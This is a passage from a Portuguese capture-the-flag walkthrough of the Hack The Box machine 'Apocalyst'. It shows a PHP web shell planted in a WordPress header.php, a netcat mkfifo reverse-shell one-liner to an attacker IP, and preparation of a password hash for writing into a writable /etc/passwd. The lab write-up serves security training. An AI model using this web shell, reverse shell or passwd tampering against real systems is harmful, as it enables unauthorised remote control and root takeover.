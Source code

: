 Abrimos o `header.php` na parte da direita

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-apocalyst/A_wp5.png)

Colocamos um código php malicioso ali e salvamos

> echo system($_REQUEST['cmd']);

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-apocalyst/A_wp6.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-apocalyst/A_wp7.png)

Verificamos se deu certo, mandamos a requisição para o `BurpSuite`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-apocalyst/A_wp8.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-apocalyst/A_wp9.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-apocalyst/A_wp10.png)

## Reverse shell

Agora iremos conseguir um reverse shell, uma vez que já temos RCE na máquina

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.119 443 >/tmp/f

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-apocalyst/A_wp11.png)

# Escalação de Privilégio

Como de costume vamos rodar o linpeas na máquina para procurar por pontos de escalação de privilégio

> https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-apocalyst/A_linpeas.png)

Passamos pra máquina e executamos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-apocalyst/A_linpeas0.png)

Encontramos que podemos escrever no `passwd`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-apocalyst/A_linpeas1.png)

## Gerando um hash ssl

Podemos gerar um hash ssl na Kali e colocar dentro do passwd

> openssl passwd -1 -salt apoc hackthebox

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-apocalyst/A_ssl.png)
